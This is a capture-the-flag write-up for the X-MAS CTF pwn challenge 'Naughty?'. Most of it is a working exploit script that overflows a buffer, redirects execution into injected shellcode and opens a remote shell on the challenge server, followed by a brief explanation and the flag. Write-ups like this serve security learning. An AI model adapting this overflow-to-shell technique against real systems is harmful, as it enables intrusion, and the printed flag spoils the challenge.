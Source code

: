 # Naughty? 190 Points
SOLVED

You haven't been naughty, have you?

**Target**: nc challs.xmas.htsp.ro 2000

**Author**: Th3R4nd0m

**Files**:naughty.zip

## Solving
I am 99% sure my solve method is miles away from the intended method, so I'm just going to dump the solve script here:
```python
from pwnscripts import *
context.binary = 'chall'

scratch = context.binary.got['puts']+0x500
r = remote('challs.xmas.htsp.ro', 2000)
R = ROP(context.binary)
R.raw(b'a'*46)
R.raw(p16(0xe4ff))
R.raw(scratch)
R.raw(0x40068D)
context.log_level = 'debug'
r.sendlineafter('\n', R.chain())

R = ROP(context.binary)
R.raw(sh().ljust(46))   # https://github.com/152334H/pwnscripts. If not, shellcraft.sh() will also work here
R.raw(p16(0xe4ff))
R.raw(scratch-0x30)
R.raw(scratch-0x30)
r.sendlineafter('\n', R.chain())

r.interactive()
```
Basically, 
1. in the first payload, set the saved rbp to `scratch`, and return to the middle of main at the fgets() call.
2. fgets() will write to [rbp-0x20]. Dump shellcode in there, and then return to it. The saved bp is also set to there so that the shellcode works.
## Flag
`X-MAS{sant4_w1ll_f0rg1ve_y0u_th1s_y3ar}`